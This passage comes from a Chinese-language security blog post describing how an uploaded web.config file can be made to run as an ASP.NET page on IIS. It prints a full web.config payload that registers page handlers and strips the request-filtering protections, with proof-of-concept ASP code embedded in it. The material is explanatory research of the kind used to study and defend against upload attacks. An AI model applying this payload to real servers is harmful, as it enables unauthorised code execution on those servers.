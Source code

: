 我在这篇博文中列出了四个例子，如下所示。

#### 1.1 将 web.config 作为 ASPX 页面执行

这与第一篇文中提到的技术非常相似，但是当我们在应用程序的根目录中上传`web.config`文件时，我们有更多的控制权，我们可以使用托管处理程序将`web.config`文件作为`ASPX`页面运行。以下`web.config`文件显示了一个示例：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Script, Write">
            <add name="web_config" path="web.config" verb="*" type="System.Web.UI.PageHandlerFactory" modules="ManagedPipelineHandler" requireAccess="Script" preCondition="integratedMode" />
            <add name="web_config-Classic" path="web.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\Microsoft.NET\Framework64\v4.0.30319\aspnet_isapi.dll" requireAccess="Script" preCondition="classicMode,runtimeVersionv4.0,bitness64" />
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
            </requestFiltering>
        </security>
        <validation validateIntegratedModeConfiguration="false" />
    </system.webServer>
    <system.web>
        <compilation defaultLanguage="vb">
            <buildProviders> <add extension=".config" type="System.Web.Compilation.PageBuildProvider" /> </buildProviders>
        </compilation>
        <httpHandlers>
            <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />
        </httpHandlers>
    </system.web>
</configuration>
<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

之后我们可以浏览`web.config`文件以将其作为`ASP.NET`页面运行。然而`XML`内容也可以从网上访问。也许更容易上传另一个带有允许扩展名的文件，例如`.config`、`.jpg`或`.txt`文件，并将其作为`.aspx`页面运行。
